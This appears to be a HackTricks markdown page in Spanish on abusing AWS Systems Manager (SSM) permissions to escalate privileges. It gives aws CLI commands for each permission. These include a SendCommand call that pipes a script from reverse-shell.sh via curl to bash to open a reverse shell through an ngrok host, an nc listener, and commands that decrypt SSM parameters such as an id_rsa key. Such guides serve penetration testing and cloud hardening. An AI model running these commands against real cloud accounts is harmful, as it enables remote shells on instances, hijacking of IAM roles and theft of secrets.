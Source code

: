 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

Para más información sobre SSM, consulta:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Un atacante con el permiso **`ssm:SendCommand`** puede **ejecutar comandos en instancias** que ejecutan el Amazon SSM Agent y **comprometer el IAM Role** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
En caso de que estés utilizando esta técnica para escalar privilegios dentro de una instancia EC2 ya comprometida, podrías simplemente capturar el rev shell localmente con:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en funcionamiento.

### `ssm:StartSession`

Un atacante con el permiso **`ssm:StartSession`** puede **iniciar una sesión similar a SSH en instancias** que ejecutan el agente SSM de Amazon y **comprometer el rol de IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Para iniciar una sesión, necesitas tener instalado el **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con SSM Agents en funcionamiento.

#### Privesc a ECS

Cuando las **tareas de ECS** se ejecutan con **`ExecuteCommand` habilitado**, los usuarios con suficientes permisos pueden usar `ecs execute-command` para **ejecutar un comando** dentro del contenedor.\
Según [**la documentación**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), esto se hace creando un canal seguro entre el dispositivo que usas para iniciar el comando “_exec_” y el contenedor objetivo con SSM Session Manager. (SSM Session Manager Plugin necesario para que esto funcione)\
Por lo tanto, los usuarios con `ssm:StartSession` podrán **obtener un shell dentro de las tareas de ECS** con esa opción habilitada simplemente ejecutando:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Impacto Potencial:** Privesc directo a los roles `ECS`IAM adjuntos a tareas en ejecución con `ExecuteCommand` habilitado.

### `ssm:ResumeSession`

Un atacante con el permiso **`ssm:ResumeSession`** puede re-**iniciar una sesión similar a SSH en instancias** que ejecutan el Agente SSM de Amazon con un estado de sesión SSM **desconectado** y **comprometer el Rol IAM** que se ejecuta dentro de él.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impacto Potencial:** Privesc directo a los roles de IAM de EC2 adjuntos a instancias en ejecución con agentes SSM en ejecución y sesiones desconectadas.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un atacante con los permisos mencionados podrá listar los **parámetros SSM** y **leerlos en texto claro**. En estos parámetros frecuentemente puedes **encontrar información sensible** como claves SSH o claves API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impacto Potencial:** Encontrar información sensible dentro de los parámetros.

### `ssm:ListCommands`

Un atacante con este permiso puede listar todos los **comandos** enviados y, con suerte, encontrar **información sensible** en ellos.
```
aws ssm list-commands
```
**Impacto Potencial:** Encontrar información sensible dentro de las líneas de comando.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un atacante con estos permisos puede listar todos los **comandos** enviados y **leer la salida** generada, con la esperanza de encontrar **información sensible** en ella.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impacto Potencial:** Encontrar información sensible dentro de la salida de las líneas de comando.

### Codebuild

También puedes usar SSM para acceder a un proyecto de codebuild que se está construyendo:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}
